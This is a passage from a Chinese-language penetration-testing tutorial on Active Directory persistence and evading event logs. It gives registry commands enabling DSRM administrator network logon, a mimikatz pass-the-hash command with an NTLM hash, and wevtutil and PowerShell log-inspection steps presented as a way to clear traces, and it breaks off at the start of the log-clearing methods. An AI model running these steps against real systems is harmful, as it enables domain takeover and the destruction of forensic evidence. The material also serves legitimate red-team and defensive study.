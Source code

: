     
    
    New-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2-PropertyType DWORD

如果存在但是不为2设置为2：

    
    
    Set-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2

![](https://gitee.com/fuli009/images/raw/master/public/20210816192549.png)

## 4.3 PTH域控

    
    
    sekurlsa::pth /domain:DC /user:Administrator/ntlm:852a844adfce18f66009b4f14e0a98de/run:powershell.exe

![]()

# 0x05 规避Windows 事件日志记录

在做完一些渗透测试清理痕迹是很有必要的一个环节，包括在一些渗透还未结束也要清理掉一些操作日志。在情报收集反溯源等等大多都是采用windows事件日志中。

## 5.1 查看windows日志

### 5.1.1 事件管理器

![](https://gitee.com/fuli009/images/raw/master/public/20210816192550.png)

### 5.1.2 powershell

  

管理员权限运行查看安全类别的日志：

    
    
    Get-WinEvent-FilterHashtable@{logname="security";}

![](https://gitee.com/fuli009/images/raw/master/public/20210816192551.png)

## 5.2 windows日志清除方法

### 5.2.1 wevtutil.exe

 **统计日志列表数目信息等：**

    
    
     wevtutil.exe gli Applicationwevtutil.exe gli Security

![](https://gitee.com/fuli009/images/raw/master/public/20210816192552.png)![](https://gitee.com/fuli009/images/raw/master/public/20210816192553.png)
